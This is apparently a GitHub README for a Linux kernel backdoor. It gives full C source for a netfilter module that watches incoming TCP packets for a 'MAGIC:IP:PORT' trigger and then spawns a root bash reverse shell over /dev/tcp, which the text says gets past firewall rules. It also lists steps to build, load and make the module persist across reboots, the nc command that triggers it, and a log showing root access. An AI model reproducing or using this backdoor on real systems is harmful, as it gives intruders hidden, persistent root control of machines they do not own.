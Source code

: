 # netfilter kernel backdoor

> What is a netfilter?

```
Netfilter is a framework within the Linux kernel that allows for packet filtering, 
network address translation (NAT), and other network-related manipulations...

More info: https://www.digitalocean.com/community/tutorials/a-deep-dive-into-iptables-and-netfilter-architecture
```

> [!NOTE]
>
> The `POC` provided in this script may not work on different kernels. It has been tested on `Linux 6.12.12-amd64`

This method aims to use `netfilter` to create a kernel loadable module that will be executed automatically once injected. Please note that in `dmesg` (kernel logs), you can find all logs related to the spawning of the reverse shell. Again, this repo does not want to provide `FUD` payloads but just shows basic techniques.

The code that we want to load in the kernel will be similar to this:

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/skbuff.h>
#include <linux/kmod.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/workqueue.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Researcher");
MODULE_DESCRIPTION("Bash Reverse Shell Netfilter Module");

#define MAGIC_PREFIX "MAGIC:"
#define MAGIC_PREFIX_LEN 6

static struct nf_hook_ops nfho;

struct backdoor_work {
    char ip[16];
    char port[6];
    struct work_struct work;
};
static struct workqueue_struct *wq;

static void execute_reverse_shell(struct work_struct *work) {
    struct backdoor_work *bwork = container_of(work, struct backdoor_work, work);
    char cmd[256];
    
    // Create pure bash reverse shell command
    snprintf(cmd, sizeof(cmd), 
             "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'",
             bwork->ip, bwork->port);
             
    char *argv[] = { "/bin/bash", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=xterm", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

    printk(KERN_INFO "Executing reverse shell to %s:%s\n", bwork->ip, bwork->port);
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    kfree(bwork);
}

unsigned int backdoor_hook(void *priv, struct sk_buff *skb, const struct nf_hook_state *state) {
    struct iphdr *iph;
    struct tcphdr *tcph;
    char *data;
    unsigned int data_len;

    if (!skb || skb_linearize(skb) < 0)
        return NF_ACCEPT;

    iph = ip_hdr(skb);
    if (iph->protocol != IPPROTO_TCP)
        return NF_ACCEPT;

    tcph = tcp_hdr(skb);
    data = (char *)((unsigned char *)tcph + (tcph->doff * 4));
    data_len = skb->len - (data - (char *)skb->data);

    if (data_len <= MAGIC_PREFIX_LEN || strncmp(data, MAGIC_PREFIX, MAGIC_PREFIX_LEN) != 0)
        return NF_ACCEPT;

    char *start = data + MAGIC_PREFIX_LEN;
    char *sep = memchr(start, ':', data_len - MAGIC_PREFIX_LEN);
    if (!sep || (sep - start) >= 16)
        return NF_ACCEPT;

    char ip[16] = {0};
    char port[6] = {0};
    unsigned int ip_len = sep - start;
    unsigned int port_len = data_len - (sep - data) - 1;
    
    if (port_len >= sizeof(port))
        return NF_ACCEPT;

    memcpy(ip, start, ip_len);
    memcpy(port, sep + 1, port_len);
    ip[ip_len] = '\0';
    port[port_len] = '\0';

    printk(KERN_INFO "[+] Received MAGIC payload: %s:%s\n", ip, port);

    // Schedule work for safe execution
    struct backdoor_work *bwork = kmalloc(sizeof(*bwork), GFP_ATOMIC);
    if (!bwork) {
        printk(KERN_ERR "Failed to allocate work struct\n");
        return NF_ACCEPT;
    }
    
    strscpy(bwork->ip, ip, sizeof(bwork->ip));
    strscpy(bwork->port, port, sizeof(bwork->port));
    INIT_WORK(&bwork->work, execute_reverse_shell);
    
    if (!queue_work(wq, &bwork->work)) {
        printk(KERN_WARNING "Work already queued, freeing\n");
        kfree(bwork);
    }

    return NF_ACCEPT;
}

static int __init backdoor_init(void) {
    // Create workqueue
    wq = create_singlethread_workqueue("reverse_shell_wq");
    if (!wq)
        return -ENOMEM;

    // Register netfilter hook
    nfho.hook = backdoor_hook;
    nfho.hooknum = NF_INET_PRE_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    nf_register_net_hook(&init_net, &nfho);
    
    printk(KERN_INFO "[*] Reverse shell module loaded\n");
    return 0;
}

static void __exit backdoor_exit(void) {
    nf_unregister_net_hook(&init_net, &nfho);
    if (wq) {
        flush_workqueue(wq);
        destroy_workqueue(wq);
    }
    printk(KERN_INFO "[-] Reverse shell module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
```

# How does it work?

Basically, what we're doing is intercepting TCP packets at a low level and extracting some info from each packet. The TCP packet payload will look like this: `MAGIC:IP:PORT`. So when there is an incoming connection, the module will start to inspect the TCP payload and check if it matches the already described pattern. If yes, an attempt to spawn a reverse shell on a specified IP and PORT will be tried. We can bypass firewall rules as checks by Netfilter are done before reaching any firewall rule.


> [!TIP]
>
> When debugging the kernel module you can use `sudo dmesg -Tw` for retrieving kernel logs interactively. To check if the module is loaded you can use `lsmod | grep "netfilter_backdoor"`

# Exploit 

1. Compile and load the module using the provided [Makefile](Makefile)

```bash
make clean 
sudo make remove # if loaded previously
sudo make # compile 
sudo insert # load at runtime
sudo make install # make the module persistent for system rebooting, do this only if everything go well
```

other commands

```bash
sudo make remove # remove module loaded at runtime
sudo make uninstall # remove module from booting 
```

2. Obtain a shell 

- Use `echo -n "MAGIC:REV_SHELL_HOST:REV_PORT" | nc TARGET_IP WHATEVER_OPENED_PORT`

> [!IMPORTANT]
>
> Remember to specify an opened port on the remote service. The most common opened port is `53` for `DNS`.
> If you don't specify an opened port you will get
> ```
> (UNKNOWN) [192.168.1.35] 80 (http) : Connection refused
> ```
> `sudo netstat -tupln` will return a list of opened ports.

```bash
listening on [any] 7777 ...
connect to [172.28.109.117] from (UNKNOWN) [172.28.96.1] 20126
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
┌─[root@parrot]─[/]
└──╼ #whoami
whoami
root
┌─[root@parrot]─[/]
└──╼ #
```
